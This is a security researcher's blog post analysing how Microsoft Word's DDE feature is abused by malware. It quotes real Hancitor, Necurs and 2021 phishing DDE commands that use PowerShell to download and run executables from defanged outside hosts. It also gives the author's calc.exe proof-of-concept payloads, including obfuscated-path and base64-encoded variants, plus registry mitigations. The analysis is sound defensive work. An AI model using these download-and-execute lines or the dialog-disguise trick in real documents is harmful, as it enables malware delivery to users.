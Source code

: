 ```yaml
---
layout: post
title: Word DDE Malware
categories: [Malware, Word, DDE]
excerpt:  Microsoft Word supports a legacy feature called DDE or "Dynamic Data Exchange" that provides an interface which can be used to launch new processes and download content. Not exactly what it was originally intended for, but a handy feature for malware authors.
---
```

(Estimated Reading Time: 11 minutes)

- [Word and DDEAUTO](#word-and-ddeauto)
- [DDE in Past Malware](#dde-in-past-malware)
- [My DDE Samples](#my-dde-samples)
- [Mitigations](#mitigations)
- [References](#references)

## Word and DDEAUTO
 Microsoft Word supports a legacy feature called DDE or "Dynamic Data Exchange" that provides an interface which can be used to launch new processes and download content. Not exactly what it was originally intended for, but a handy feature for malware authors. It does present several popup warnings for the user so is not a silent attack method. However, it does still seem to be used in the wild and has been used in the past so I thought it was worth a closer look and a consolidation of information. 

It is worth noting that DDE attacks are no more effective than macro-based attacks. DDE attacks also require the user to click through a series of warnings like below. In the samples I made, I had to click through 2 warnings on Office 2016. 

![warning1](/images/warning1.jpg)
![warning2](/images/warning2.jpg)

## DDE in Past Malware
 
Hancitor Malware used DDE, reported in Oct,2017 on isc.sans.edu. The doc used the following DDE command. SHA256 hash: f945105f5a0bc8ea0d62a28ee62883ffc14377b6abec2d0841e88935fd8902d3

```
 "DdE" c:\\Windows\\System32\\cmd.exe " /k powershell.exe (New-Object System.Net.WebClient).DownloadFile('hxxp://frontiertherapycenter.com/16.exe','%TEMP%\\tvs.exe');Start-Process '%TEMP%\\tvs.exe'"
```

Necurs Botnet usd DDE, also discussed on isc.sans.edu in Oct,2017. I was able to grab this file from virusshare.com. Interestingly, when I ran strings.exe and strings.py on the file the DDE command was not found in the strings. TrID listed this file as a .docx (ie the modern Office file format) SHA256 hash:  3fa85101873d1c3447594c309ea1e324beb578843e1fab7c05189830d2def126

```
DDE C:\\Windows\\System32\\cmd.exe "/k powershell -NoP -sta -NonI -w hidden $e=(New-Object System.Net.WebClient).DownloadString('hxxp://arkberg-design.fi/KJHDhbje71');powershell -e $e "  
```

More recently [DDE was back in the news]((https://isc.sans.edu/forums/diary/Dynamic+Data+Exchange+DDE+is+Back+in+the+Wild/27116)) in Feb,2021 as part of a phishing attack to download a RAT. The sample is the older OLE word format. The file name was e-Voucher.doc. When I viewed the sample with the strings command the DDE command can be seen easily. SHA256:de966b0d005dda776a6104f999f294d62c5b1f6b6e5c6f79de5135ec66ba4ee4

```
ddeauto "c:\\\\microsoft\\\\office\\\\word\\\\document\\\\..\\\\..\\\\..\\\\..\\\\windows\\\\system32\\\\cmd.exe" "/c powershell.exe (new-object system.net.webclient).downloadfile(' hxxp://fullhash.cloud/tmpl_c/mscalc.exe','%temp%\\mscalc.exe');start-process '%temp%\\mscalc.exe'"  \* mergeformat 
```

The website [labs.inquest.net](labs.inquest.net)
primarily focuses on deep inspection of office type documents. By visiting the site and searching for 'Heuristics' and alert on 'Microsoft Dynamic Data Exchange (DDE)' you can see a listing of all instances of DDE usage in their database. As of 3/1/21 it returned 10 results.

![inquest](/images/inquestlabs.jpg)

One of the samples in this list from inquestlabs was a bit interesting in that it obfuscated the typical C:\\windows\system32\\ path seen in above samples by using a reverse solidus char, as seen below.

![ddecmd](/images/ddecmd.jpg)

I also stubbled across these samples from [@GossiTheDog](https://twitter.com/GossiTheDog/status/918113076985163778) which had a bit more complexity to them then just downloading and executing something. This first one Creates a new user on the box, and the second one starts up IE to perform a download as seen below. I've changed the URL just so you can see the technique as the image is a bit hard to read.

```
DDEAUTO C:\\Windows\\Sysem32\\cmd.exe "/k powershell.exe $e=new-object -com internetexplorer.application; $e.visible=$true; $e.navigate2('https://www.google.com/'); powershell -e $e
```

![ddecmd](/images/iedl.jpg)

The usage of DDE is not limited to Word only. The following [linked blog](https://pentestlab.blog/2018/01/16/microsoft-office-dde-attacks/) has examples using Excel, outlook, outlock calendar appointments,etc. It is quite simple to launch calc from Excel as well using a command like this in the first row, first column of an excel sheet. I posted this Excel file on my github site as well.
```
=cmd|'/c calc.exe'!A1
```

## My DDE Samples

In my research on DDE I wanted to create a couple non-malicous samples for research that simply launch calc.exe. I have posted my samples on [my github site here](https://github.com/Cyber00011011/DDE_Samples). I created 4 Word documents. Two in the newer Word format, and 2 in the older format. These samples were made with Office 2016. At first, I didn't understand why I couldn't see the DDE command in the newer Word docx with strings.exe, but eventually realized I needed to unzip them first. It also helped reading this [blog from inquest.net on DDE](https://inquest.net/blog/2017/10/13/microsoft-office-dde-macro-less-command-execution-vulnerability).

Here is the sample command(s) I used to launch calc.exe. This lines up with the newer sample seen in 2021. I also tried the DDE C:\\Windows\\System32\\cmd.exe style command and was able to get that to work as well in Office 2016. 

```
ddeauto "c:\\\\microsoft\\\\office\\\\word\\\\document\\\\..\\\\..\\\\..\\\\..\\\\windows\\\\system32\\\\cmd.exe" "/c powershell.exe start-process 'calc.exe'"  \* mergeformat 
```

```
ddeauto "c:\\windows\\system32\\cmd.exe" "/c powershell.exe start-process 'calc.exe'"  \* mergeformat 
```
The only real difference is in how the dialog box appears to the user. In the first command the user will see a string that looks less suspicious. 

![cmd1](/images/secondcmd.jpg)

verses this which is clearly showing cmd.exe and powershell.exe which might tip a user off. 

![cmd2](/images/firstcmd.jpg)

When reviewing malicious DDE docs I was a bit surprised to not see much base64 encoding of powershell in DDE commands. The following worked in my test doc and caused calc.exe to launch. I used the UTF-16LE operation followed by a ToBase64 operation in [CyberChief to encode my string](https://gchq.github.io/CyberChef/#recipe=Encode_text('UTF-16LE%20(1200)')To_Base64('A-Za-z0-9%2B/%3D')&input=c3RhcnQtcHJvY2VzcyAnY2FsYy5leGUn), start-process 'calc.exe'

```
ddeauto "c:\\windows\\system32\\cmd.exe" "/c powershell.exe -encodedCommand cwB0AGEAcgB0AC0AcAByAG8AYwBlAHMAcwAgACcAYwBhAGwAYwAuAGUAeABlACcA"  \* mergeformat 
```
## Mitigations

The [Microsoft Security Advisory](https://docs.microsoft.com/en-us/security-updates/securityadvisories/2017/4053440) on this topic recommends either disabling the DDE feature via a registry key below, or for customers on Windows 10 1709 or greater using the Attack Surface Reduction (ASR) Rules. 

* For Office 2010 and later versions, to disable the DDE feature via the Registry Editor

> [HKEY_CURRENT_USER\Software\Microsoft\Office\<version>\Word\Options\WordMail] DontUpdateLinks(DWORD)=1

* For Office 2007, to disable the DDE feature via the Registry Editor:

> [HKEY_CURRENT_USER\Software\Microsoft\Office\12.0\Word\Options\vpref] fNoCalclinksOnopen_90_1(DWORD)=1

## References
* Link to [Microsoft DDE Overview](https://docs.microsoft.com/en-us/windows/win32/dataxchg/dynamic-data-exchange-overviews)
* Link to [Microsoft Security Advisory](https://docs.microsoft.com/en-us/security-updates/securityadvisories/2017/4053440)
* Link to [Necurs Botnet malspam pushes Locky using DDE attack](https://isc.sans.edu/forums/diary/Necurs+Botnet+malspam+pushes+Locky+using+DDE+attack/22946)
* Link to [Dynamic Data Exchange DDE is Back in the Wild](https://isc.sans.edu/forums/diary/Dynamic+Data+Exchange+DDE+is+Back+in+the+Wild/27116)
* Link to [Migo Kedem blog on DDE](https://medium.com/@migokedem/malware-embedded-in-microsoft-office-documents-dde-exploit-macroless-4f197387ddbd)
* Link to [My DDE Non-malicious Samples](https://github.com/Cyber00011011/DDE_Samples)